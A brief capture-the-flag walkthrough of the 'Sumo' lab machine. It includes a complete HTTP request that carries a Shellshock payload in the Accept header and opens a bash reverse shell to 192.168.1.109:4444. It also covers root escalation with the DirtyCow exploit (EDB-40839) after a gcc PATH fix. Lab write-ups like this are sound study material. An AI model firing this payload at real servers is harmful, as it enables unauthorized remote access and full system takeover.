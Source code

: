 # Sumo

netdiscover found this box running on the following IP

```
192.168.1.104
```

nikto identified shellshock

![[Pasted image 20220709104036.png]]

We are able to get a reverse shell as `www-data` using the following web request.

```
GET /cgi-bin/test.sh HTTP/1.1
Host: 192.168.1.104
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: () { :;}; /bin/bash -i >& /dev/tcp/192.168.1.109/4444 0>&1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

linpeas and linux-exploit-suggester both identified dirtycow as a possible privesc avenue.

I was struggling to get the exploit compiled, as I was getting an error:

```
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

I turned to a walkthrough to see what I might be missing. And we found a way to fix the error:

```
PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/:/usr/bin;export PATH
```

We were able to get a root shell using [dirtycow EDB-40839](https://www.exploit-db.com/exploits/40839)

## Root flag

![[Pasted image 20220709113217.png]]

